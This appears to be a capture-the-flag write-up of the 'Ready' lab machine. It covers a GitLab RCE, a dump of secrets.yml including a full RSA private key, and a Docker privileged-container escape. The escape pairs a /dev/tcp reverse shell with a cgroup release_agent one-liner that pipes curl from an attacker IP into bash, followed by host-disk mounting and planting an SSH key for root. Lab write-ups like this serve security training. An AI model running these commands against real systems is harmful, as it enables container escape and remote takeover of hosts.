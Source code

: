 # Ready - 10.10.10.220

Created: September 5, 2021 9:50 AM

nmap:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled.png)

hella files in robots.txt:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%201.png)

after registering:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%202.png)

found exploit at:

[https://github.com/ctrlsam/GitLab-11.4.7-RCE](https://github.com/ctrlsam/GitLab-11.4.7-RCE)

reverse shell:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%203.png)

secrets found:

```jsx
git@gitlab:~/gitlab-rails/etc$ cat secrets.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: eaa32eb7018961f9b101a330b8a905b771973ece8667634e289a0383c2ecff650bb4e7b1a6034c066af2f37ea3ee103227655c33bc17c123c99f421ee0776429
  secret_key_base: b7c70c02d37e37b14572f5387919b00206d2916098e3c54147f9c762d6bef2788a82643d0c32ab1cdb315753d6a4e59271cddf9b41f37c814dd7d256b7a2f353
  otp_key_base: b30e7b1e7e65c31d70385c47bc5bf48cbe774e39492280df7428ce6f66bc53ec494d2fbcbf9b49ec204b3ba741261b43cdaf7a191932f13df1f5bd6018458e56
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    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
    -----END RSA PRIVATE KEY-----
```

we're in a container:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%204.png)

in gitlab config file at /opt : 

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%205.png)

docker escape:

we have cap_sys_module:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%206.png)

we dont have make command and /lib/modules/ is not excised. 

on docker-compose file we see the root is privileged: 

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%207.png)

`privileged: true` means that the container has root privileges on the host, and that we can escape.

on kali:

create [shell.sh](http://shell.sh) :

```jsx
#!/bin/bash

bash >& /dev/tcp/10.10.16.3/4442 0>&1
```

host it with python and nc on other shell:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%208.png)

on docker box:

```jsx
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.16.3/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

---

---

we can mount the host filesystem as well:

`lsblk` shows devices:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%209.png)

sda2 seems like the main disk. mount it:

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%2010.png)

then we can put our ssh key in the root `ssh authorized_keys` and connect with ssh

![Untitled](Ready%20-%2010%2010%2010%20220%20ee044638f370420887e9e4b05cdaaa28/Untitled%2011.png)